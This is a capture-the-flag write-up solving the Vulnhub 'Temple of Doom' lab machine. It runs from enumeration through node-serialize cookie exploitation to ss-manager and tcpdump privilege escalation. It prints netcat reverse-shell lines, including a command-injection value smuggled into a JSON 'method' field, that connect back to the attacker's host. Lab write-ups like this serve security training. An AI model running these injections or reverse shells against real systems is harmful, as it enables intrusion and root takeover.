Vulnhub Temple Of Doom Writeup
In this write up i am solving CTF challenge Temple of the doom. It was submitted on Vulnhub by 0katz.
Difficulty: Easy/intermediate
Link: https://www.vulnhub.com/
entry/temple-of-doom-1,243/
Usually i am starting by scanning the ip of the machine but The ip was already exist so there was no need to scan upon it

So first i stated with scanning the open ports using nmap
→nmap -sC -sV -p- 192.168.1.109 -oN nmap

I checked the http website and there was nothing interesting

then i tried to get the directories using wfuzz but i got nothing
→Wfuzz -c -z file,/usr/share/wordlists/
dirbuster-list-2.3-medium.txt — hc 404 http://192.168.1.109:666/FUZZ
Also tried to check if there is any vulnerabilities using nikto but also got nothing
→nikto -h http://192.168.1.109:666

So i tried to run burbsuit to see what is going on on the background of the page
I found there is base 64 encerapted cookies value
And when i decoded it i got this

User and token and when it expires
First i searched how to log in using an csrftoken but the result wasn’t that good
So i tried to change in the value of the cookies
First i sent each 2 togother to the server but i got an error each time
which was kind of useful cause it gave me the name of the node module (node-serialize)

Then i tried each one individually until i got a responce when i sent the username alone

So i started to google if there is any vulnerabilities published for node-serialize
and i found one


i customized it a little bit so i can get shell
and added it to the username parameter

Then i encoded it and sent it to the server so i got a shell …

Now i am (nodeadmin) user
I tried sudo -l to see if there’s services i can run as sudo but there wasn’t and didn’t find any thing interesting in the home directory
So in order to enumerate more i changed directory to /tmp and got Linenum.sh using
→git clone https://github.com/rebootuser/
LinEnum.git

After i changed LinEnum.sh to executable i ran it and found that the user fireman can run sudo commands

So i ran the same script again and captured only the fireman user using grep to see if there is any service might be running by him and i found one called
ss-manager

I checked google for any available vulnerabilities and the first result was the answer

By looking into the proof of concept i found that if i connect on localhost using netcat on the port 8839 it will be able to creat a file called evil in the tmp directory under the name of fireman user

So first i checked if this port is open on the machine Using the command : netstat -anu
it was there

So i started listening on my machine and customized the payload in order to give me shell instead
Listener:
→nc -u 127.0.0.1 8839
Payload:
→add: {“server_port”:8003, “password”:”test”, “method”:”||nc -nv 192.168.1.106 4444 -e /bin/bash||”}

now i am fireman user
So i tried sudo -l and found three services could be run as sudo

I checked if i can escalate any of them to get root access and i found that it’s possible with tcpdump

So the method will be adding a command in the command variable and it will be run as root in the end
I customized the command to give me root shell instead:
→COMMAND=’nc -nv 192.168.1.106 8888 -e /bin/bash’
And i got root access...:)
